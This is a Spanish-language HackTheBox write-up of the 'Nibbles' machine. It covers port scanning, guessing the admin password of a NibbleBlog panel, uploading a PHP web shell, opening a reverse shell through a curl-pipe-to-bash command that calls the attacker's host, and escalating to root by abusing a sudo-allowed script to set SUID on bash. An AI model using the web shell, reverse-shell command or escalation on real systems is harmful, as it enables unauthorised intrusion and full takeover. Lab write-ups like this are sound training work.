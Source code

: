 ```yaml
---
title: HackTheBox - Nibbles
author: cotes
date: 2023-09-07 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'File Upload', 'Abuso de Sudoers']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Nibbles/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Nibbles Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Nibbles`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Nibbles/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Nibbles/02-versions.png)

c. Al ver el código fuente de la página web inicial, veremos una directorio por el cual podremos empezar a fuzzear

![](/assets/images/HTB/Easy/Nibbles/03-leak.png)


* El sitio web está levantado con **`NibbleBlog`** y podemos ver su código fuente en **`Github`** [NibbleBlog](https://github.com/dignajar/nibbleblog). Con esto podemos evitarnos realizar fuzzing.


* El directorio **`content`** contiene el directorio **`/private`** en el cual existe un fichero **`users.xml`**

    ```xml
    <user username="admin">
    <SNIP>
    ```

d. En el repositorio vemos un fichero **`admin.php`**, que es un panel de login, pero, al no poseer la contraseña del usuario **admin**, probamos con palabras comunes

* **`admin:admin`, `admin:password`, `admin:nibbles`**

e. Una vez autenticados, iremos al apartado de **`Plugins -> My Image`**. Intentamos subir un fichero **`php`** con el contenido **`<?php system($_GET["cmd"]); ?>`**

* Como nos fijamos, no existe ningun tipo de sanitización por lo que la 'imagen' se subió normalmente, para verla nos iremos a la siguiente ruta **`http://<IP>/nibbleblog/content/private/plugins/my_image/`**.

    ![](/assets/images/HTB/Easy/Nibbles/05-file_upload.png)

* Una vez garantizada la ejecución remota de comandos, entablamos una reverse shell.

    * **URL:** **`http://<IP Nibbles>/nibbleblog/content/private/plugins/my_image/image.php?cmd=curl%20http://<tun0 IP>:<Port>|bash`**

    ![](/assets/images/HTB/Easy/Nibbles/06-reverse.png)

### Escalada de Privilegios 💹

a. Listamos privilegios de tipos sudoers, que podamos tener

```bash
nibbler@Nibbles:/home/nibbler$ sudo -l

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

* Podemos ejecutar como root el archivo **`monitor.sh`**, sin embargo, este no existe, por lo que, al estar en nuestro directorio personal, lo que haremos es crear los directorios y el fichero con un script que otorgue el permiso **`SUID`** a la **`bash`**

    ```bash
    nibbler@Nibbles:/home/nibbler$ tree -fas
    .
    |-- [       4096]  ./personal
    |   `-- [       4096]  ./personal/stuff
    |       `-- [         18]  ./personal/stuff/monitor.sh

    nibbler@Nibbles:/home/nibbler/personal/stuff/$ cat monitor.sh
    chmod +s /bin/bash
    nibbler@Nibbles:/home/nibbler/personal/stuff/$ chmod +x monitor.sh
    ```

b. Ahora ejecutamos el script como **root**

```bash
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1037528 May 16  2017 /bin/bash
nibbler@Nibbles:/home/nibbler$ bash -p
bash-4.3# whoami
root
```

> Con esto hemos vulnerado la `Máquina Nibbles`
{: .prompt-tip }